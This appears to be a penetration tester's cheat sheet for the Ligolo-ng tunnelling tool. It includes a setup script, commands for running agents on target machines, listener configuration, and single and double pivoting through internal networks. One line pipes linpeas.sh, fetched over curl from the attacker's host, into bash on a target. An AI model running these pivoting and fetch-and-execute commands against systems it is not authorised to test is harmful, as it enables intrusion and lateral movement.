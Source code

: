 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Quick setup Ligolo

https://youtu.be/5E9PCIJG8sY?si=Twia81xeB7M-GCtu\
This custom script can be download below.

<details>

<summary>run_ligolo.sh</summary>

```bash
#!/bin/bash

# Function to display usage
usage() {
    echo "Usage: $0 [-p platform] [-i ip_route]"
    echo "  -p: Platform (linux or windows)"
    echo "  -i: IP route (e.g., 172.16.1.0/24)"
    exit 1
}

# Function to get tun0 IP
get_tun0_ip() {
    ip addr show tun0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
}

# Parse command line arguments
while getopts "p:i:" opt; do
    case $opt in
        p) PLATFORM=$OPTARG ;;
        i) IPROUTE=$OPTARG ;;
        *) usage ;;
    esac
done

# Validate arguments
if [ -z "$PLATFORM" ] || [ -z "$IPROUTE" ]; then
    usage
fi

if [ "$PLATFORM" != "linux" ] && [ "$PLATFORM" != "windows" ]; then
    echo "Error: Platform must be 'linux' or 'windows'"
    exit 1
fi

# Set agent file based on platform
AGENT_FILE="agent"
[ "$PLATFORM" = "windows" ] && AGENT_FILE="agent.exe"

# Setup ligolo interface and route
echo "[+] Setting up ligolo interface..."
sudo ip tuntap add mode tun ligolo || { echo "[-] Failed to create tun interface"; exit 1; }
sudo ip link set ligolo up || { echo "[-] Failed to bring up interface"; exit 1; }
sudo ip route add "$IPROUTE" dev ligolo || { echo "[-] Failed to add route"; exit 1; }
echo "[+] IP route added for $IPROUTE"

# Get tun0 IP
TUN0_IP=$(get_tun0_ip)
if [ -z "$TUN0_IP" ]; then
    echo "[-] Could not determine tun0 IP"
    exit 1
fi

# Start HTTP server in background
echo "[+] Starting HTTP server..."
python3 -m http.server 8000 &
HTTP_PID=$!
echo "[+] File available at http://$TUN0_IP:8000/$AGENT_FILE"

# Start proxy
echo "[+] Starting proxy..."
./proxy -selfcert

# Cleanup
kill $HTTP_PID

```

</details>

Download binaries https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.4

#### 1. Setup host

<pre class="language-bash"><code class="lang-bash"># Setup TUN interface and route traffic through target subnet
sudo ip tuntap add user kali mode tun ligolo &#x26;&#x26; sudo ip link set ligolo up &#x26;&#x26; sudo ip route add 172.20.200.0/24 dev ligolo

<strong># Add another subnet in case of double pivot
</strong>sudo ip route add 172.20.200.0/24 dev ligolo
</code></pre>

#### 2. Start Ligolo proxy

```bash
# Start proxy on host
./proxy -selfcert
```

#### 3. Run Ligolo agent on target

```bash
# Start agent on Linux
./agent -connect 172.10.10.10:11601 -ignore-cert

# Start agent on Windows
agent.exe -connect 172.10.10.10:11601 -ignore-cert
```

#### Listeners

For reverse connections you can add listeners. If you want for example run a http server on port 8888 you add a listener.

```bash
# Add listener
listener_add --addr 0.0.0.0:8888 --to 127.0.0.1:8888 --tcp

# Run http server
python -m http.server 8888

# You can then Curl 
curl http://172.10.10.10:8888/linpeas.sh | Bash
```

#### Pivotting with Ligolo

A. You: 172.10.10.10 -- B. MS01: 10.10.14.14 -- C. BC01: 10.10.200.5

```bash
# Copy agent to MS01 run
./agent -connect 172.10.10.10:11601 -ignore-cert
```

#### Double Pivot with Ligolo

```bash
# Add new listener
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Copy agent to 2nd pivot (BC01) and connect to first pivot on port 11601
./agent -connect 10.10.14.14:11601 -ignore-cert
```

